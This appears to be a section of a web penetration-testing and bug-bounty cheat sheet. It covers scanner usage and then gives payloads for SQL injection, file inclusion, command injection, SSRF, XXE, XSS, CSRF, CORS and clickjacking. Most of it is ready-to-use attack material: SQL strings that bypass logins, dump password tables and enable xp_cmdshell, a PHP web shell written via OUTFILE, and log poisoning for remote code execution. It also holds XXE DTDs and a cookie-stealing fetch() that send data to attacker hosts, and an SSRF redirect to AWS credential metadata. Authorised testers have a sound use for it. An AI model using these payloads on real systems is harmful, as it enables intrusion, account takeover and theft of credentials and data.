- Spectre and Meltdown: targeted scan for [Meltdown](https://en.wikipedia.org/wiki/Meltdown_(security_vulnerability)) and [Spectre](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)) vulnerabilities

**Configuring scan definitions**<br/>
- Ports to scan
  - In "Discovery" > "Scan Type" you can change the ports to scan
  - "Discovery" > "Port Scanning" to select more specific options
- Turn off Host discovery (save time and scan more quietly)
  - "Discovery" > "Host Discovery" under the "Settings" tab > deselect "Ping the remote host"

**Authenticated scanning**<br/>
From a new scan, click in the "Credentials" tab.

**Scanning with Individual Nessus Plugins**<br/>
From the "Plugins tab" you can select multiple options (a family of plugin) in the left column or one by one in the right column.

### <ins>Nmap</ins>

NSE scripts can be found in the `/usr/share/nmap/scripts/` directory. Here you can find `script.db`, a file that serves as an index to all of the scripts.

**Grep for scripts in the "vuln" and "exploit" categories**<br/>
`cat script.db | grep '"vuln"\|"exploit"'`

**Using NSE’s “vuln” scripts**<br/>
`sudo nmap --script vuln 10.11.1.100`

### <ins>Nikto</ins>

You can find it here: [sullo/nikto](https://github.com/sullo/nikto).

**An example of usage**
`nikto -host=http://www.targetcorp.com -maxtime=30s`

### <ins>Nuclei</ins>

You can find it here: [projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei). See also: "[The Ultimate Guide to Finding Bugs With Nuclei by ProjectDiscovery](https://blog.projectdiscovery.io/ultimate-nuclei-guide/)"

**Automatic Selection**<br/>
`nuclei -u http://target.io -as`

**Check for Technologies**<br/>
`%USERPROFILE%\nuclei-templates\technologies`

**Check for more: misconfiguration, CVEs and CNVD**<br/>
`-t %USERPROFILE%\nuclei-templates\misconfiguration -t %USERPROFILE%\nuclei-templates\cves -t %USERPROFILE%\nuclei-templates\cnvd`

**Use it in a workflow**<br/>
`cat subdomains.txt | httpx | nuclei -t technologies`

**Use tags combined with automatic selection**<br/>
`nuclei -l list.txt -as -tags log4j -o output.txt`

**Check for: takeovers, .git exposed, crlf-injection, swaggers, exposed panels and old copyrights**<br/>
`nuclei -l target.txt -t %USERPROFILE%/nuclei-templates/takeovers -t %USERPROFILE%/nuclei-templates/exposures/configs/git-config.yaml -t %USERPROFILE%/nuclei-templates/vulnerabilities/generic/crlf-injection.yaml -t %USERPROFILE%/nuclei-templates/exposures/apis/swagger-api.yaml -t %USERPROFILE%/nuclei-templates/exposed-panels -t %USERPROFILE%/nuclei-templates/miscellaneous/old-copyright.yaml -stats -o output/nuclei_target`

**Check for log4j**<br/>
`nuclei -l target.txt -as -tags log4j,cve -stats -o output/nuclei_2_target`

## Web vulnerabilities

### <ins>SQL injection</ins>

**How to identify SQL injections**: Search for SQL errors, use the apex or the backtick character in parameters and analyze the response.

**Some payloads for Blind SQL injections detection**
- ```SQL
  0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
  ```
- ```SQL
  0'|(IF((now())LIKE(sysdate()),SLEEP(1),0))|'Z
  ```
- ```SQL
  0'or(now()=sysdate()&&SLEEP(1))or'Z
  ```

**Extract database information**
- Extract the version: `?id=1 union all select 1, 2, @@version`
- Extract the database user: `?id=1 union all select 1, 2, user()`
- Extract table names: `?id=1 union all select 1, 2, table_name from information_schema.tables`
- Extract table columns `?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
- An example of extracting the `users` table: `?id=1 union all select 1, username, password from users`

**Authentication Bypass**
- `tom’ or 1=1 LIMIT 1;#`
  - `#` is a comment marker in MySQL/MariaDB
  - `LIMIT 1` is to return a fixed number of columns and avoid errors when our payload is returning multiple rows

**Insert a new user**
```SQL
insert into webappdb.users(password, username) VALUES ("backdoor","backdoor");
```

**Local File Inclusion (LFI)**<br/>
Using the `load_file` function: `?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`

**Remote Code Execution (RCE)**
- ```SQL
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  xp_cmdshell 'COMMAND';
  ```
- ```SQL
  EXEC sp_configure 'allow updates', 0
  RECONFIGURE
  EXEC sp_configure 'show advanced options', 1
  GO
  RECONFIGURE
  GO
  EXEC sp_configure 'xp_cmdshell', 1
  GO
  RECONFIGURE
  GO
  xp_cmdshell 'COMMAND';
  ```
- Write a PHP shell using the `OUTFILE` function: `?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`. Then access `backdoor.php&cmd=ipconfig`.

**Tools**
- [SQL injection cheat sheet  | PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQL Injection cheat sheets | pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

**sqlmap**
```
 > SQLMap: sqlmap -u https://vulnerable/index.php?id=1
                  --tables (to see db)
                  -D DATABASE_NAME -T TABLE_NAME --dump (to see data)
                  --forms --batch --crawl=10 --random-agent --level=5 --risk=3 (to crawl)
		  -l (to parse a Burp log file)
		  --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3		  
		  --force-ssl --threads 5 --level 1 --risk 1 --tamper=space2comment
```

**How to fix SQL injections**: Use parameterized queries/prepared statements to protect against SQL injections by isolating user input from SQL code. They add placeholders for user input in SQL statements, creating a layer of isolation and preventing user input from affecting SQL code.


### <ins>Authentication vulnerabilities</ins>

**Multi-factor authentication**
- Response manipulation, try to intercept the response and modify the status to `200`
- Status code manipulation, change the code from `4xx` to `200`
- 2FA code leakage in the response
- JS File Analysis
- 2FA Code Reusability
- Lack of Bruteforce protection
- The 2FA code can be used for any user
- CSRF on 2FA disabling
- Password reset disable 2FA
- Bypass 2FA with null or `000000`
- Access the content directly
- Login with Oauth to bypass 2FA
- If you get logged-out after failed attempts, use macros with Burp

**Password reset**
- Change the `Host` with the host of your server. The request for a password reset might use the `Host` value for the link with the reset token
- Try with headers like `X-Forwarded-Host:`
- Via dangling markup
  - `Host: victim.com:'<a href="//attacker.com/?`
- Insert two emails, like:
  - `email1@service.com;email2@service.com`
  - `email:["email1@service.com","email2@service.com"]`

**Rate-limit**
- Bypass with `X-Forwarded-For:127.0.0.1-1000`
- IP rotating, you can use
  - [mubeng](https://github.com/kitabisa/mubeng)
  - [Burp extension: IP Rotate](https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874)
- Log in into a valid account to reset the rate-limit

**Web Cache Deception**
- Attacker send to a victim a 404 endpoint like `site.com/dir/ok.css`
- Victim click on it, the CDN cache the page
- Attacker goes to `site.com/dir/ok.css`, now it can see the page of the Victim

**Misc tests**
- [Password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)
- [Keeping users logged in](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
- Test "remember me" functionality
- PHP protections can be bypassed with `[]`, like `password=123` to `password[]=123`
- Replace password with a list of candidates, example
  ```JSON
  "username":"usertest"
  "password":[
   "123456",
   "password",
   "qwerty",
   ...
  ```
- Search for [Open Redirect](#open-redirection) in login and register
- For phpMyAdmin, check default credential `root` and blank password

### <ins>Directory Traversal</ins>

Directory traversal vulnerabilities allow an attacker to read local secret files. To identify these vulnerabilities, you can search for file extensions in URL query strings and common vulnerable parameters like `file`, `path` and `folder` (see [scripts/fg.rb](scripts/fg.rb))

**Exploitations / Bypasses**
- simple case `https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`
- absolute path `https://insecure-website.com/loadImage?filename=/etc/passwd`
- stripped non-recursively `https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd`
- superfluous URL-decode `https://insecure-website.com/loadImage?filename=..%252f..%252f..%252fetc/passwd`
- validation of start of path `https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd`
- validation of start of path `https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png`

**Search for**
- `windows\win.ini`
- `c:\windows\system32\drivers\etc\hosts`
- `etc/passwd`

### <ins>File inclusion</ins>

File inclusion vulnerabilities allow an attacker to include a file into the application’s running code. To identify these vulnerabilities, you can search for file extensions in URL query strings and common vulnerable parameters like `file`, `path` and `folder` (see [scripts/fg.rb](scripts/fg.rb)).

- **Local File Inclusion (LFI)**: execute a local file
  1. Contaminate Apache logs by sending this payload `<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`. This payload will be saved in the logs
  2. Perform a LFI with `http://10.11.0.220/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`. It will load the contaminated logs and perform an RCE thanks to `shell_exec($_GET['cmd'])`
- **Remote File Inclusion (RFI)**: execute a remote file
  - An example: `http://10.11.0.220/menu.php?file=http://10.11.0.4/evil.php`

**PHP Wrappers**
- `?file=data:text/plain,hello world`
- `?file=data:text/plain,<?php echo shell_exec("dir") ?>`

### <ins>OS Command Injection</ins>

Let's say that the vulnerable endpoint it's `https://insecure-website.com/stockStatus?productID=381&storeID=29`. The provide the stock information, the application runs the command `stockpile.pl 381 29`. If there is no OS Command Injection protection, by inserting the payload `& echo abcdefg &` in `productID` it's possible to execute the command `echo`.

For blind OS Command Injections
- Time delay `& ping -c 10 127.0.0.1 &`
- Redirecting output `& whoami > /var/www/static/whoami.txt &`
- Out-of-band (OAST) techniques `& nslookup kgji2ohoyw.web-attacker.com &`

Ways of injecting OS commands
- Both Windows and Unix-based systems
  - `&`
  - `&&`
  - `|`
  - `||`
- Unix-based systems only
  - `;`
  - Newline with `0x0a` or `\n`
  - `injected command`
  - `$(injected command)`

**Resource**
- [commix-testbed](https://github.com/commixproject/commix-testbed)


### <ins>Business logic vulnerabilities</ins>

**Examples**
- Excessive trust in client-side controls
- 2FA broken logic
- Failing to handle unconventional input
- Inconsistent security controls
- Weak isolation on dual-use endpoint
- Password reset broken logic
- Insufficient workflow validation
- Flawed enforcement of business rules
- [Authentication bypass via encryption oracle](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-encryption-oracle)


### <ins>Information Disclosure</ins>

What is information disclosure?
- Data about other users, such as usernames or financial information
- Sensitive commercial or business data
- Technical details about the website and its infrastructure

What are some examples of information disclosure?
- Revealing the names of hidden directories, their structure, and their contents via a robots.txt file or directory listing
- Providing access to source code files via temporary backups
- Explicitly mentioning database table or column names in error messages
- Unnecessarily exposing highly sensitive information, such as credit card details
- Hard-coding API keys, IP addresses, database credentials, and so on in the source code
- Hinting at the existence or absence of resources, usernames, and so on via subtle differences in application behavior
- If you need to find UUID from an email, try to register the user and see if in the response it's disclosed. [[Reference](https://twitter.com/intigriti/status/1217794181982302208)]

How do information disclosure vulnerabilities arise?
- Failure to remove internal content from public content
- Insecure configuration of the website and related technologies
- Flawed design and behavior of the application


### <ins>Access control vulnerabilities and privilege escalation</ins>

In the context of web applications, access control is dependent on authentication and session management:
- Authentication identifies the user and confirms that they are who they say they are;
- Session management identifies which subsequent HTTP requests are being made by that same user;
- Access control determines whether the user is allowed to carry out the action that they are attempting to perform.

From a user perspective, access controls can be divided into the following categories:
- Vertical access controls
  Mechanisms that restrict access to sensitive functionality that is not available to other types of users
- Horizontal access controls
  Mechanisms that restrict access to resources to the users who are specifically allowed to access those resources
- Context-dependent access controls
  Restrict access to functionality and resources based upon the state of the application or the user's interaction with it

**Tools**
- [Autorize](https://github.com/PortSwigger/autorize)
- [Authz](https://portswigger.net/bappstore/4316cc18ac5f434884b2089831c7d19e)
- [UUID Detector](https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248)
- Check also endpoints in JS files


### <ins>File upload vulnerabilities</ins>

**Upload Functions check-list**
- [ ] Check if the method `PUT` is enabled
- [ ] Integrations (from 3rd party)
  - XSS
- [ ] Self Uploads
  - XML based (Docs/PDF)
    - SSRF, XSS
  - Image
    - XSS, Shell
      - Name
      - Binary header
      - Metadata
- [ ] Where is data stored?
  - [s3 perms](#abusing-s3-bucket-permissions)
  - [GCS perms](#google-cloud-storage-bucket)
  
**Extension Splitting**
- shell.php%00.png
- shell.php%0A.png
- shell.php\n.png
- shell.php\u000a.png
- shell.php\u560a.png
- shell.php%E5%98%8A.png
- shell.php;.png
- shell.php%3B.png
- shell.php\u003b.png
- shell.php\u563b.png
- shell.php%E5%98%BB.png

**multipart/form-data POST request**
```HTTP
POST / HTTP/2
Host: example.io
Content-Type: multipart/form-data; boundary=---------------------------374598703146120535182333328
Content-Length: 342

-----------------------------374598703146120535182333328
Content-Disposition: form-data; name="key"

general
-----------------------------374598703146120535182333328
Content-Disposition: form-data; name="file"; filename="file.pdf"
Content-Type: application/pdf

$content$
-----------------------------374598703146120535182333328--
```

**Resources**
- [Common MIME types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types)
- [How I earned $500 by uploading a file: write-up of one of my first bug bounty](https://seeu-inspace.medium.com/how-i-earned-500-by-uploading-a-file-write-up-of-one-of-my-first-bug-bounty-c174cf8ea553)


### <ins>Server-side request forgery (SSRF)</ins>

**SSRF with blacklist-based input filters bypass**
Some applications block input containing hostnames like `127.0.0.1` and localhost, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:
- Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`;
- Registering your own domain name that resolves to `127.0.0.1`. You can use spoofed.burpcollaborator.net for this purpose or the domain `firefox.fr` is a DNS that point to `127.0.0.1`.;
- Obfuscating blocked strings using URL encoding or case variation.

**SSRF with whitelist-based input filters bypass**
- You can embed credentials in a URL before the hostname, using the `@` character. For example: `https://expected-host@evil-host`.
- You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`.
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`.
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
- You can use combinations of these techniques together.

**Other tips**
- By combining it with an [Open redirection](#open-redirection), you can bypass some restrictions. [An example](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection): `http://vulnerable.com/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
- For AWS, bypass some restrictions by hosting this PHP page [[Reference](https://hackerone.com/reports/508459)]
  ```PHP
  <?php header('Location: http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-opsworks-ec2-role', TRUE, 303); ?>
  ```
- If everything fails, look for assets pointing to internal IPs. You can usually find these via CSP headers, JS files, Github, shodan/censys etc. [[Reference](https://twitter.com/bogdantcaciuc7/status/1561572514295341058)]
- [SSRF (Server Side Request Forgery) testing resources](https://github.com/cujanovic/SSRF-Testing)

**Common endpoints**
- Webhooks
  - Try to send requests to internal resources
- PDF Generator
  - If there is an HTML Injection in a PDF generator, try call internal resources with something like `<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/" title="SSRF test">`, with these tags ``, `<script>`, `<base>` or with the CSS element `url()`
- Document parsers
  - If it's an XML doc, use the PDF Generator approach
  - In other scenarios, see if there is any way to reference external resources and let server make requests to internal resources
- Link expansion, [[Reference](https://twitter.com/BugBountyHQ/status/868242771617792000)]
- File uploads
  - Instead of uploading a file, upload a URL. [An example](https://hackerone.com/reports/713)
  - Use an SVG file
    ```svg
	<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    	<image xlink:href="https://example.com/test.png"/>
	</svg>
    ```

**Common payloads**
- `http://127.0.0.1`
- `http://localhost/`
- `http://169.254.169.254/`
- `http://169.254.169.254/latest/meta-data/`
- `http://metadata.google.internal/`


### <ins>Open redirection</ins>

**Bypasses**
- https://attacker.com?victim.com
- https://attacker.com;victim.com
- https://attacker.com/victim.com/../victimPATH
- https://victim.com.attacker.com
- https://attackervictim.com
- https://victim.com@attacker.com
- https://attacker.com#victim.com
- https://attacker.com\.victim.com
- https://attacker.com/.victim.com
- https://subdomain.victim.com/r/redir?url=https%3A%2F%2Fvictim.com%40ATTACKER_WEBSITE.COM?x=subdomain.victim.com%2f
- https://www.victim.com/redir/r.php?redirectUri=https://attacker%E3%80%82com%23.victim.com/
- https://www.victim.com/redir/r.php?redirectUri=/%0d/attacker.com/


### <ins>XXE injection</ins>

- **Exploiting XXE to retrieve files**<br/>
  Original
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <stockCheck><productId>381</productId></stockCheck>
  ```
  Modified
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <stockCheck><productId>&xxe;</productId></stockCheck>
  ```
- **Exploiting XXE to perform SSRF attacks**
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerablewebsite.com/"> ]>
  ```
- **Exploiting blind XXE exfiltrate data out-of-band**<br/>
  Example
  ```xml
  <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com"> %xxe; ]>
  ```
- **Exfiltrate data out-of-band**<br/>
  for-the-malicious-web-server.dtd
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://webattacker.com/?x=%file;'>">
  %eval;
  %exfil;
  ```
  Submit to vulnerable server
  ```xml
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://webattacker.com/malicious.dtd"> %xxe;]>
  ```
- **Exploiting blind XXE to retrieve data via error messages**
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
  ```
- **Exploiting blind XXE by repurposing a local DTD**<br/>
  Suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`
  ```xml
  <!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
  <!ENTITY % custom_entity '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM
  &#x27;file:///nonexistent/&#x25;file;&#x27;>">
  &#x25;eval;
  &#x25;error;
  '>
  %local_dtd;
  ]>
  ```
  To locate the DTD file, submit the payload
  ```xml
  <!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM
  "file:///usr/share/yelp/dtd/docbookx.dtd">
  %local_dtd;
  ]>
  ```
- **Try with xinclude to achieve SSRF or LFI**
  ```xml
  <?xml version="1.0" encoding="utf-8" ?>
  <username xmls:xi="https://w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///c:/windows/win.ini">
  </username>
  ```

Attack surfaces
- **XInclude attacks**
  ```xml
  <foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/></foo>
  ```
- **XXE attacks via file upload with** `.svg`
  ```svg
  <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITYxxe SYSTEM "file:///etc/hostname" > ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```
- **XXE attacks via modified content type**<br/>
  For example, Content-Type: `application/x-www-form-urlencoded` -> `Content-Type: text/xml`

Manually testing for XXE vulnerabilities generally involves
- Testing for file retrieval
- Testing for blind XXE vulnerabilities
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document


### <ins>Cross-site scripting (XSS)</ins>

**Resources**
- [xsscrapy](https://github.com/DanMcInerney/xsscrapy)
  - [python3 version](https://github.com/L1NT/xsscrapy) 
- For blind XSS
  - [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)
  - [XSS Hunter](https://xsshunter.com/)
- [AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)
- [Weaponised XSS payloads](https://github.com/hakluke/weaponised-XSS-payloads)
- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- Articles
  - [Escalating XSS in PhantomJS Image Rendering to SSRF/Local-File Read](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/)
  - [Exploiting XSS via Markdown](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8)
  - [XSS to Exfiltrate Data from PDFs](https://medium.com/r3d-buck3t/xss-to-exfiltrate-data-from-pdfs-f5bbb35eaba7)

**CSP**
- [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com/)
- [CSP Auditor](https://portswigger.net/bappstore/35237408a06043e9945a11016fcbac18)
- [CSP Bypass](https://github.com/PortSwigger/csp-bypass)

**Swagger XSS**
- https://github.com/swagger-api/swagger-ui/issues/1262
- https://github.com/swagger-api/swagger-ui/issues/3847<br/>
  `?url=https://raw.githubusercontent.com/seeu-inspace/easyg/main/XSS%20all%20the%20things/swag-test.json`
- [Hacking Swagger-UI - from XSS to account takeovers](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)<br/>
  `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NlZXUtaW5zcGFjZS9lYXN5Zy9tYWluL1hTUyUyMGFsbCUyMHRoZSUyMHRoaW5ncy9zd2FnLXRlc3QueWFtbCIKfQ==`
- Nuclei template `%USERPROFILE%\nuclei-templates\exposures\apis\swagger-api.yaml`

**Blind XSS**
- Insert a payload in the User-Agent, try with the match/replace rule
- Other endpoints: pending review comments, feedback

**Bypasses**
- https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)
- [JSFuck](http://www.jsfuck.com/)
- [Path Relative style sheet injection](https://portswigger.net/kb/issues/00200328_path-relative-style-sheet-import)
- [Shortest rXSS possible](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/)
- If Privileges are required, see if you can chain the XSS with a [CSRF](#cross-site-request-forgery-csrf)

**Carriage Return Line Feed (CRLF) injection**
- `/%0D%0AX-XSS-Protection%3A%200%0A%0A%3cscript%3ealert(document.domain)%3c%2fscript%3e%3c!--`
- `/%E5%98%8D%E5%98%8AX-XSS-Protection%3A%200%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%3cscript%3ealert(document.domain)%3c%2fscript%3e%3c!--`
- Nuclei template `%USERPROFILE%\nuclei-templates\vulnerabilities\generic\crlf-injection.yaml`

**Cross Site Tracing**
- If cookies are protected by the HttpOnly flag but the TRACE method is enabled, a technique called Cross Site Tracing can be used. [[Reference](https://owasp.org/www-community/attacks/Cross_Site_Tracing)]

**Payloads**
- HTML injection
  ```HTML
  <p style="color:red">ERROR! Repeat the login</p>Membership No.<br/><input><br/><a href=http://evil.com><br><input type=button value="Login"></a><br/>
  ```
- [For hidden inputs](https://portswigger.net/research/xss-in-hidden-input-fields): `accesskey="X" onclick="alert(1)"` then Press ALT+SHIFT+X on Windows / CTRL+ALT+X on OS X
- For **mobile applications**: try to use as a vector the name of the phone with a payload like `"/><script>alert(1)</script>`
- iframe + base64 encoded SVG 
  ```HTML
  <iframe src="data:image/svg+xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBzdGFuZGFsb25lPSJubyI/Pgo8IURPQ1RZUEUgc3ZnIFBVQkxJQyAiLS8vVzNDLy9EVEQgU1ZHIDEuMS8vRU4iICJodHRwOi8vd3d3LnczLm9yZy9HcmFwaGljcy9TVkcvMS4xL0RURC9zdmcxMS5kdGQiPgoKPHN2ZyB2ZXJzaW9uPSIxLjEiIGJhc2VQcm9maWxlPSJmdWxsIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPgogICA8cmVjdCB3aWR0aD0iMzAwIiBoZWlnaHQ9IjEwMCIgc3R5bGU9ImZpbGw6cmdiKDAsMCwyNTUpO3N0cm9rZS13aWR0aDozO3N0cm9rZTpyZ2IoMCwwLDApIiAvPgogICA8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCI+CiAgICAgIGFsZXJ0KGRvY3VtZW50LmRvbWFpbik7CiAgIDwvc2NyaXB0Pgo8L3N2Zz4="></iframe>
  ```
- Cookie stealers
  - ```JavaScript
    fetch('https://ATTACKER-WEBSITE', {method: 'POST',mode: 'no-cors',body:document.cookie});
    ```
  - ```JavaScript
    document.write('')
    ```
  - ```HTML
    
    ```
- ```JavaScript
  %22%20onbeforeinput=alert(document.domain)%20contenteditable%20alt=%22
  ```
- ```JavaScript
  1672&81782%26apos%3b%3balert(%26apos%3bXSS%26apos%3b)%2f%2f232=1
  ```
- ```HTML
  <svg/onload=alert(0)>
  ```
- Unusual events
  - `onpointerrawupdate` (Chrome only)
  - `onmouseleave`
- This lead the page to make a loop of requests, eventually causing being blocked by a WAF and being a potential DoS
  ```JavaScript
  for(;;){fetch('https://VICTIM/',{method:'GET'});}
  ```
- Double encoding
  ```HTML
  %253c%252fscript%253e%253cscript%253ealert(document.cookie)%253c%252fscript%253e
  ```
- Small SVG base64
  ```HTML
  data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxyZWN0IHdpZHRoPSIxIiBoZWlnaHQ9IjEiLz48c2NyaXB0PmFsZXJ0KDEpPC9zY3JpcHQ+PC9zdmc+
  ```
- jAvAsCrIpT
  ```HTML
  <a href="jAvAsCrIpT:alert(1)">payload</a>
  ```
- Can't use `alert`, `confirm` or `prompt`? Try `print()`! [[Reference](https://portswigger.net/research/alert-is-dead-long-live-print)]


### <ins>Cross-site request forgery (CSRF)</ins>

- Remove the entire token
- Use any random but same-length token, or `same-length+1`/`same-length-1`
- Use another user's token
- Change from `POST` to `GET` and delete the token
- If it's a `PUT` or `DELETE` request, try `POST /profile/update?_method=PUT` or
  ```HTTP
  POST /profile/update HTTP/1.1
  Host: vuln.com
  ...
  
  _method=PUT
  ```
- If the token it's in a custom header, delete the header
- Change the `Content-Type` to `application/json`, `application/x-url-encoded` or `form-multipart`, `text/html`, `application/xml`
- If there is double submit token, try CRLF injection
- Bypassing referrer check
  - If it's checked but only when it exists, add to the PoC `<meta name="referrer" content="never">` 
  - Regex Referral bypass
    ```
    - https://attacker.com?victim.com
    - https://attacker.com;victim.com
    - https://attacker.com/victim.com/../victimPATH
    - https://victim.com.attacker.com
    - https://attackervictim.com
    - https://victim.com@attacker.com
    - https://attacker.com#victim.com
    - https://attacker.com\.victim.com
    - https://attacker.com/.victim.com
    ```
- CSRF token stealing via XSS/HTMLi/CORS
- JSON based
  - Change the `Content-Type` to `text/plain`, `application/x-www-form-urlencoded`, `multipart/form-data`
  - Use flash + 307 redirect
- Guessable CSRF token
- Clickjacking to strong CSRF token bypass
- Type juggling
- Use array, from `csrf=token` to `csrf[]=token`
- Set the CSRF token to null or add null bytes
- Check whether CSRF token is sent over http or sent to 3rd party
- Generate multiple CSRF tokens, pick the static part. Play with the dynamic part

**Resources**
- [CSRF PoC Generator](https://security.love/CSRF-PoC-Genorator/)


### <ins>Cross-origin resource sharing (CORS)</ins>

**Classic CORS vulnerability**
```HTML
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
  location='/log?key='+this.responseText;
  };
</script>
```

**CORS vulnerability with null origin**
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','vulnerable-website.com/sensitive-victim-data',true);
  req.withCredentials = true;
  req.send();
     
  function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
  };</script>">
</iframe>
```

**CORS vulnerability with trusted insecure protocols**
```HTML
<script>
  document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

**Tools**
- [Corsy](https://github.com/s0md3v/Corsy) Corsy is a lightweight program that scans for all known misconfigurations in CORS implementations


### <ins>Clickjacking</ins>

**Classic PoC**
```HTML
<style>
  iframe {
    position:relative;
    width:$width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }
  div {
    position:absolute;
    top:$top_value;
    left:$side_value;
    z-index: 1;
  }
</style>
<div>Click me button</div>
<iframe src="$url"></iframe>
```

**Classic PoC + XSS**
```HTML
<style>
  iframe {
    position:relative;
    width:$width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }
  div {
    position:absolute;
    top:$top_value;
    left:$side_value;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="$url?name=&email=hacker@attacker.website.com&subject=test&message=test#feedbackResult"></iframe>
```


### <ins>DOM-based vulnerabilities</ins>

Many DOM-based vulnerabilities can be traced back to problems with the way client-side code manipulates attacker-controllable data.

- document.URL
- document.documentURI
- document.URLUnencoded
- document.baseURI
- location
- document.cookie
- document.referrer
- window.name
- history.pushState
- history.replaceState
- localStorage
- sessionStorage
- IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
- Database

| DOM-based vulnerability          | Example sink               |
| -------------------------------- | -------------------------- |
| DOM XSS                          | document.write()           |
| Open redirection                 | window.location            |
| Cookie manipulation              | document.cookie            |
| JavaScript injection             | eval()                     |
| Document-domain manipulation     | document.domain            |
| WebSocket-URL poisoning          | WebSocket()                |
| Link manipulation                | someElement.src            |
| Web-message manipulation         | postMessage()              |
| Ajax request-header manipulation | setRequestHeader()         |
